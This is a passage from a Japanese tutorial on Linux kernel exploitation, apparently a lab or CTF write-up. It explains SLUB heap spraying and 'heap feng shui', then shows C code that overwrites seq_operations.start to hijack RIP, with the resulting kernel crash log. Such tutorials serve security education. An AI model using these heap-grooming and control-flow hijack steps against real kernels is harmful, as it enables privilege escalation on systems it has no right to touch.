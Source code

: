 この状態で`note`を1つだけ確保すると、真ん中の状態になります。
そこからさらに`seq_operations`を取得すると、右の状態になります。
`note`と`seq_operations`が離れ離れになってしまっています。
これではだめですね。

一方で、最初に`note`を大量に取ると現在のSLUBページを使い果たして次の新しいSLUBがとられることになります。
すると、`freelist`リストは上から下に一直線になり、オブジェクトは確保した順に並ぶことになります。

![feng2](img/feng2.png)

このように、heapの状態が望ましい状態になるように沢山オブジェクトを確保してSLUBをリフレッシュさせることを
**Heap Spray** と言ったりします。
また、より一般的にheapの状態を整理することを **Heap Feng Shui** と言ったりします。
人にexploitを説明するのがめんどくさいときは、とりあえず「heap feng shuiした」と言うと説明が省けるので便利な言葉です。

## overflowによるRIP奪取

さて、ここまででkbaseのleakができました。
次はRIPを取ります。

`/proc/self/stat`等のファイルに対して`read`等を読むと、`vfs_read()`->`seq_read()`->`seq_read_iter()`
において`seq_operations.start`が呼ばれます([/fs/seq_file.c]())。
よって、`seq_operations.start`の値を好きな値に書き換えておくことでRIPを取ることができます。

今は取り敢えずRIPを取れることを確認するため、`0xDEADBEEFCAFEBABE`を入れておきます:

```c
*(ulong *)(buf1 + SEQ_NOTE_SIZE - 8) = 0xDEADBEEFCAFEBABE;
for (int i = 0; i < 5; ++i) {
  create_note(fd, SEQ_NOTE_SIZE, buf1);
}
```

この状態で`read()`を`/self/stat/open`した`fd`に対して呼ぶと以下のようになります:

```sh
general protection fault: 0000 [#1] SMP PTI
CPU: 0 PID: 152 Comm: exploit Tainted: G           O      5.15.0 #2
Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.15.0-1 04/01/2014
RIP: 0010:0xdeadbeefcafebabe
Code: Unable to access opcode bytes at RIP 0xdeadbeefcafeba94.
RSP: 0018:ffffc90000463dd8 EFLAGS: 00000246
RAX: deadbeefcafebabe RBX: 0000000000000000 RCX: 0000000000004c63
RDX: 0000000000004c62 RSI: ffff88800313d028 RDI: ffff88800313d000
RBP: ffffc90000463e30 R08: ffff888003105000 R09: 0000000000000000
R10: 0000000000000000 R11: 0000000000000000 R12: ffffc90000463e78
R13: 00000000004f0c90 R14: ffff88800313d028 R15: ffff88800313d000
FS:  00000000004ee3c0(0000) GS:ffff88800f600000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: 000000005d001690 CR3: 000000000328a000 CR4: 00000000001006f0
```

